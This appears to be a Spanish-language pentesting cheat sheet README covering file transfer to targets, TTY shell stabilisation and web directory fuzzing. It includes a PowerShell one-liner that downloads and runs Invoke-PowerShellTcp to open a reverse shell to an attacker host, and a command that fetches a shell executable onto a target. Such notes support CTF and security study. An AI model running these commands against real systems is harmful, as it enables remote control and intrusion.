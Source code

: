 # ayudas
TRANSFERENCIA DE ARCHIVOS  
.........................

sudo python -m http.server 80
sudo python -m SimpleHTTPServer 80

     Target Linux: 
         wget http://[IP]/recurso
         
     Target Windows:
         powershell -c "Invoke-WebRequest -Uri 'http://[IP]:[PUERTO]/recurso' -OutFile 'C:\Windows\Temp\nombrequequeramos'"
         Invoke-WebRequest http://[IP]/[RECURSO] -OutFile [NOMBREQUEQUERAMOS]
         powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
         powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
         
sudo python smbserver.py [como se llamara el recurso a compartir] [nombre del recurso a compartir] ej smbserver.py compartida /home/user
    Para conectarse: copy \\IP\recurso


TRATAMIENTO TTY
...............

LINUX
   script /dev/null -c bash
   ctrl+z
   stty raw-echo
   fg
   reset
   xterm
   export TERM=xterm
   export SHELL=bash
   stty rows 52 columns 180
   
WINDOWS
   https://github.com/antonioCoco/ConPtyShell


FUZZING WEB
...........

wfuzz -c -t 400 --hc=404 -w [wordlist] [url]/FUZZ
wfuzz -c -t 400 --hc=404 -w [wordlist] -w [archivo_extensiones] [url]/FUZZ.FUZ2Z
wfuzz -c -t 400 --hc=404 -z range,0-100 http://IP/note.php?note=FUZZ --> probar numeros del 0 al 100

nmap --script http-enum -p [PUERTO] [IP]

gobuster dir --url http://IP --wordlist /usr/share/wordlists/dirb/big.txt

dirb http://IP /path/to/wordlist
